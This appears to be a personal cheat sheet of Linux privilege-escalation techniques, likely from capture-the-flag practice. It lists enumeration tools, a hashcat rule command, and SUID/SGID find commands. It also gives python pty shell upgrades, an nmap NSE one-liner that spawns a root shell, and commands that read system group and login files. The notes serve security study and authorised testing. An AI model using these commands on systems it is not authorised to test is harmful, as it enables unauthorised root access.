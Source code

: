 # privilege escalation

## tools
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
- [thief](https://github.com/montyonsecurity/thief)

## password cracking
### rules
hashcat -r /usr/share/hashcat/rules/best64.rule --stdout sorted-passes.lst | strings | sort -u > best64-passes.lst

## binaries
### suid
find / $(pwd) -perm /4000 2> /dev/null

### sgid
find / $(pwd) -perm /2000 2> /dev/null

### both
find / $(pwd) -perm /6000 2> /dev/null

### gdb basics
TryHackMe's The Cod Caper showcases some basic gdb usage

### little endian
converting hex to little endian syntax

hex = 0x080484cb
little endian = /xcb/x84/x04/x08

## get bash
/bin/bash -i
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

## exploiting nmap
Nmap scripts are written in Lua and you can pass Lua code to the NSE directly
nmap --script <(echo 'os.execute("/bin/sh")')

## processes running as root
ps -U root

## processes running as root (verbose)
ps aux | grep root

## users who can sudo
cat /etc/group | grep sudo

## login info
cat /etc/login.defs | grep -v \# | grep [a-zA-Z0-9]
 
## sql
### find plugins folder (ran with what pirvilige sql has)
select @@plugin\_dir;

### Find varibale value in sql
select @@variable\_name;
